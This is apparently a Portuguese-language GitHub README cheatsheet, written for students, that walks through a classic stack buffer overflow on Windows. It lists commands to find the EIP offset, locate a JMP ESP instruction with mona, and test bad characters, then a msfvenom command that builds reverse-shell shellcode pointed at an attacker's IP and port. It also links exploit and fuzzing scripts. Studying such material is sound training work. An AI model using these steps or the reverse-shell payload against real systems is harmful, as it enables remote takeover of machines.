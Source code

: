 # Buffer Clássico | Cheatsheet

Esse material foi desenvolvido com a intenção de auxiliar os estudantes que se envolverem com o tema de Buffer Overflow Clássico.

---

Criando um padrão aleátorio de caracteres para a identificação da quantidade de caracteres que são necessários para a manipulação do EIP.

```
msf-pattern_create -l 550
```

Identificando a quantidade necessária para controlar o EIP baseado no padrão gerado acima.

```
msf-pattern_offset -q <EIP>
```

Encontrando uma instrução válida **JMP ESP** na aplicação utilizando o [mona](https://github.com/corelan/mona).

```
!mona jmp -r esp
```

Gerando *bytearray* para os testes dos caracteres que são inválidos para a aplicação.

```
!mona bytearray -cpb "\x00"
```

Comparando o endereço onde estão localizado os caracteres que foram enviados para aplicação com o binário do bytearray que foi gerado no comando acima.

```
!mona compare -f C:\monalogs\aplicacao\bytearray.bin -a <ENDEREÇO>
```

Gerando o shellcode para receber o acesso remoto na máquina.

```
msfvenom -p windows/shell_reverse_tcp -a x86 --platform windows -b "<badchars>" LHOST=<IP DO ATACANTE> LPORT=<PORTA DO ATACANTE> -f c
```
<br />

## Scripts

Scripts           | Link        
------------------|-------------
conecta.py        | [Clique aqui](https://github.com/mx61tt/buffer-classico-cheatsheet/blob/master/scripts/conecta.py) 
fuzzing.py        | [Clique aqui](https://github.com/mx61tt/buffer-classico-cheatsheet/blob/master/scripts/fuzzing.py)
poc.py            | [Clique aqui](https://github.com/mx61tt/buffer-classico-cheatsheet/blob/master/scripts/poc.py)
findeip.py        | [Clique aqui](https://github.com/mx61tt/buffer-classico-cheatsheet/blob/master/scripts/findeip.py)
eip.py            | [Clique aqui](https://github.com/mx61tt/buffer-classico-cheatsheet/blob/master/scripts/eip.py)
badchars.py       | [Clique aqui](https://github.com/mx61tt/buffer-classico-cheatsheet/blob/master/scripts/badchars.py)
exploit.py        | [Clique aqui](https://github.com/mx61tt/buffer-classico-cheatsheet/blob/master/scripts/exploit.py)

